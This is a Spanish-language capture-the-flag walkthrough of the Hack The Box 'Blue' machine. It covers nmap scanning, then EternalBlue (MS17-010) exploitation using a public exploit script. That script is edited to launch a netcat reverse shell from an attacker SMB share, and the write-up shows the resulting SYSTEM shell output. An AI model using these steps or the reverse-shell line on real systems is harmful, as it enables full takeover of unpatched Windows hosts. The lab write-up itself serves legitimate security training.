

Reconocimiento
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.40 Nmap scan report for 10.10.10.40
Host is up (0.042s latency).
Not shown: 991 closed tcp ports (reset)
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49156/tcp open msrpc Microsoft Windows RPC
49157/tcp open msrpc Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windowsAl ver que el puerto 445 se encuentra abierto y que el SO es un Windows 7 SP1 podemos probar a usar el EternalBlue ya que podría ser vulnerable.
Explotación
git clone https://github.com/worawit/MS17-010Primero, vamos a comprobar que el Windows sea vulnerable a este exploit y para ello vamos a usar el checker.py dandole permisos de administrador y cambiando un trozo de linea del código.
Donde poner username, ponemos un carácter porque si no, no podría funcionar el script salvo que el usuario guest este habilitado.
Script for
- check target if MS17-010 is patched or not.
- find accessible named pipe
'''
USERNAME = 'a'
PASSWORD = ''
NDR64Syntax = ('71710533-BEBA-4937-8319-B5DBEF9CCC36', '1.0')
Ejecutamos el Script poniendo la direccion ip de la máquina Blue.
python2 checker.py 10.10.10.40imagenchecker
Al comprobar que funciona correctamente, procederemos a cambiar la misma parte del contenido en el fichero zzz_exploit.py y también dandole permisos de ejecución.
Buscamos dentro del archivo por cmd y comentamos las mismas lineas que en lo siguiente y descomentamos la única que se va a ejecutar y cambiamos a lo siguiente.
Liena a insertar con el cual ejecutaremos el netcat por el servidor smb de Kali y nos haremos una reverseShell a nuestro equipo teniendo el puerto 443 a la escucha con el comando **nc -lvp 443 **
Linea a introducir:
\\10.10.14.9\share\nc.exe -e cmd 10.10.14.9 443Parte del archivo a cambiar:
def smb_pwn(conn, arch):
#smbConn = conn.get_smbconnection()
#print('creating file c:\\pwned.txt on the target')
#tid2 = smbConn.connectTree('C$')
#fid2 = smbConn.createFile(tid2, '/pwned.txt')
#smbConn.closeFile(tid2, fid2)
#smbConn.disconnectTree(tid2)
#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
service_exec(conn, r'cmd /c \\10.10.14.9\share\nc.exe -e cmd 10.10.14.9 443')
# Note: there are many methods to get shell over SMB admin session
# a simple method to get shell (but easily to be detected by AV) is
# executing binary generated by "msfvenom -f exe-service ..."
Servidor SMB con impacket
impacket-smbserver share $(pwd) -smb2support
Procederemos a la ejecucion del script.
python2 zzz_exploit.py 10.10.10.40Y comprobaremos que somos *nt authority
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.40] 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>ipconfig
ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix . :
IPv6 Address. . . . . . . . . . . : dead:beef::ec27:2916:8a1f:869e
Temporary IPv6 Address. . . . . . : dead:beef::a4ad:6053:ef18:5158
Link-local IPv6 Address . . . . . : fe80::ec27:2916:8a1f:869e%11
IPv4 Address. . . . . . . . . . . : 10.10.10.40
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:551%11
10.10.10.2
Tunnel adapter isatap.{CBC67B8A-5031-412C-AEA7-B3186D30360E}:
Media State . . . . . . . . . . . : Media disconnected
Connection-specific DNS Suffix . :
Tunnel adapter Teredo Tunneling Pseudo-Interface:
Media State . . . . . . . . . . . : Media disconnected
Connection-specific DNS Suffix . :
C:\Windows\system32>